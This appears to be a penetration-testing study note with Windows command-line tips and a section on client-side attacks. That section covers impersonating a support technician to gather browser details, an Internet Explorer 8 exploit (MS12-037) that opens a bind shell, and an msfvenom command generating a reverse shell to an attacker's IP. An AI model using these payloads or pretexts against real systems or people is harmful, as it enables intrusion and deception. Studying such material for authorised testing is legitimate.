 Finding a file
```cmd
dir /s proof.txt # /s recursive
dir /s /a proof.txt # /s recursive, /a attributes (show all hidden and system files as well)
```

Finding strings
```cmd
findstr /i "hello" filename # /i for ignore case
findstr /si "hello" # /i for ignore case, /s for recursive
```

Opening a file in notepad (requires GUI):
```cmd
start notepad filename
```

Shortnames when changing directories or during directory path traversal:
```cmd
# C:\Program Files\A Pro Gram\
# 6 first chars + ~1
cd C:\PROGRA~1\APROGR~1\
```

Finding Windows version with only hard drive access:
```cmd
type C:\Windows\System32\eula.txt
```

# Client Side Attacks

## Know Your Target

### Passive Client Information Gathering
Find information online about the target, such as browser version from websites that collect user agent data.

### Active Client Information Gathering
Social engineering, calling the company as a support technician in an attempt to extract useful information from the person on the other side of the line. Or sending them an email, with hope for a response or a link click, that would enumerate the user's browser version and installed extensions.

## MS12-037 - Internet Explorer 8 Fixed Col Span ID
https://www.exploit-db.com/exploits/24017/

Host the malicious page and visit it. Bind shell open on port 4444.

To swap out shellcode, ensure the new shellcode is of the same size as the exploit apparently bypasses ASLR and DEP, and it also mentions it will be more reliable if it was the same size.

For that, generate the following Windows reverse shell, in Javascript unicode format, with no encoding:
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=[kali ip] LPORT=443 -f js_le -e generic/none
```
